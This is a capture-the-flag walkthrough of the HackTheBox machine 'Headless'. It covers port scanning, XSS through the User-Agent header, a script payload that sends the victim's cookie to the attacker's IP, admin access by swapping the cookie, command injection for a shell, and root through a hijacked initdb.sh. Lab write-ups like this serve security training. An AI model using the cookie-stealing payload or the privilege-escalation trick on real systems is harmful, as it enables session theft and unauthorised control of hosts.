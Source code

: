 # HackTheBox - Headless

## Enumeration

We start with our nmap scan and only have a HTTP server on port 5000 and SSH on port 22.

```
# Nmap 7.94SVN scan initiated Tue Mar 26 12:42:31 2024 as: nmap -sCV -oN nmap/output 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 16:42:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/26%Time=6602FAFE%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2016:42:39\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 26 12:44:09 2024 -- 1 IP address (1 host up) scanned in 98.19 seconds

```

We navigate the webpage and see nothing particularly of interest, the webpage just indicates that it'll be released in about a month so click on the button below which takes us to `/support`

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>



The support page gives us a form which we try XSS but the site seems to have some kind of sanitisation, as it blocks our requests.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This indicates we might be looking in the wrong place but it does reveal something interesting, the `is_admin` cookie. It looks to be a JWT token so we pass it to https://jwt.io but it isn't, although does show us that the first portion indicates "user"

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From here we decide to get creative, although there's no XSS in the form itself maybe we can try an gain XSS from the headers. We try various headers and find that the "User-Agent" header gives us XSS!

<figure><img src=".gitbook/assets/p0l1fadW3n.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/dJpadp6U8w.png" alt=""><figcaption></figcaption></figure>

## User

Let's now try and get an administrative cookie. We're going to use the following payload to try and do so:

```
<script>var i=new Image(); i.src="http://$VPN_IP:8000/?cookie="+btoa(document.cookie); </script>
```

This payload will silently make a HTTP request to our VPN IP and give us the users cookie encoded in Base64, indicated by `btoa`. After crafting our payload, we start our listener and send the request. We have to wait a moment but we then get a hit on our web server!

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We decode the payload and then look at where we can use it, finding the `/dashboard` directory.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use the "Inspect Element" feature on our browser and edit our cookie so that instead of seeing an Unauthorized error, we have access to the page.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Refreshing the page after editing our cookie, we find we have access to an "Administrator Dashboard" that allows us to generate website health reports based on the day. We catch this request in Burp and try to perform command injection and get a POC!

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

From this point we could either enumerate the box to see if we have tools such as Netcat available or download our own bash shell and run it, both are viable options but we'll go for the former for ease.&#x20;

<figure><img src=".gitbook/assets/WzLH2Tv47u.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Meb2HOxqwH.png" alt=""><figcaption></figcaption></figure>

From here we stabilise our shell and get our `user.txt`

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Root

We check our sudo privileges which reveals we can run `/usr/bin/syscheck` as sudo, so check the strings for it which just reveals the script!

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So the binary calls "initdb.sh" from our local directory, but there's no checks for where initdb.sh is, so if we create our own malicious shell file, we can just replace its actual purpose. We'll create a simple script that spawns us a shell as root:

```
echo -e '#!/bin/bash\nbash -p' > initdb.sh
```

We'll then make it executable with `chmod +x initdb.sh` and run the binary.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This gives us root, and that's the box!
